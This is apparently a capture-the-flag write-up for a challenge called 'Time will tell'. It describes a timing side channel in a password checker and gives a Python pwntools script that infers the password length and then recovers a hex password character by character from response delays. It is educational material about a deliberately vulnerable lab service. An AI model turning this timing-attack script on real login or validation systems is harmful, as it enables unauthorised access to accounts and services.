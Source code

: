# Time will tell

## Description

<small>Author: @aenygma</small><br><br>A side channel timing attack. <br> Figure out the password in 90 seconds before connection terminates. <br> The password is dynamic and changes every connection session. <br>
<br><b>NOTE, the password is eight characters long and will be hexadecimal.</b> <br><br> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


## Files

* [app.py](<files/app.py>)

## Solution

This is a programming challenge where we are responsible for exploiting a timing attack against a password validation tool. The threshold is `0.1` seconds of "compute time" added to each check that the password checker makes. I created a more generic script that will get the length and generate the password based on the character combination that took the longest time.

I am certain this can be optimized, but this is what I used:
```python
from pwn import *
import sys
import time

# Connect to the remote server
s = remote(sys.argv[1], int(sys.argv[2]))
chars = "0123456789abcdef"

# Get the length
times = {}
s.recvuntil(b": ")
for i in range(50):
        password = "0" * i
        s.sendline(password.encode())
        print(f"Trying length {i}")
        start = time.time()
        d = s.recvuntil(b": ")
        end = time.time()
        times[i] = end - start
length = max(times, key=times.get)
print(f"Length is {length}")
last_time = 0
iter_1 = 0
iter_2 = length - 1
password = "0" * length

# Attempt passwords
for i in range(length):
    times = {}
    for c in chars:
        password = password[:i] + c + "0" * iter_2
        s.sendline(password.encode())
        print(f"Trying combination {password}")
        start = time.time()
        d = s.recvuntil(b": ")
        if b"flag" in d:
            print(d)
            s.interactive()
        end = time.time()
        times[c] = end - start
    nchar = max(times, key=times.get)
    password = password[:i] + nchar + "0" * iter_2
    iter_2 -= 1
```